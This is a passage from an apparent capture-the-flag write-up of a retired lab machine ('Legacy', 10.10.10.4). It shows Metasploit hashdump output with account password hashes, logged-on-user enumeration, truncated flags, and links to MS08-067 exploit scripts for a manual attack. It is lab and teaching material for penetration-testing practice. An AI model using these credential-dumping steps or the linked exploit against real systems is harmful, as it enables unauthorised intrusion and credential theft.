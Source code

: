 ```
hashdump

Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

Enumerating Logged-On Users:

```
run post/windows/gather/enum_logged_on_users

[*] Running module against LEGACY (10.10.10.4)

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       C:\WINDOWS\system32\config\systemprofile
 S-1-5-19                                       C:\Documents and Settings\LocalService
 S-1-5-20                                       C:\Documents and Settings\NetworkService
 S-1-5-21-117609710-1450960922-1801674531-1003  C:\Documents and Settings\john
 S-1-5-21-117609710-1450960922-1801674531-500   C:\Documents and Settings\Administrator


[+] Results saved in: /home/kali/.msf4/loot/20250126222542_default_10.10.10.4_host.users.recen_106623.txt
```

Retrieve the user and root flag:
`C:\Documents and Settings\John\Desktop`
```
e69af0...
```

`C:\Documents and Settings\Administrator\Desktop`
```
993442...
```

## Manual Exploitation

### Locate Exploit
I used the MS08-067 exploit script available on Exploit-DB:
+ [Exploit-DB: Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)](https://www.exploit-db.com/exploits/7132)
+ Exploit from jivoi on Github: [ms08-067.py](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)

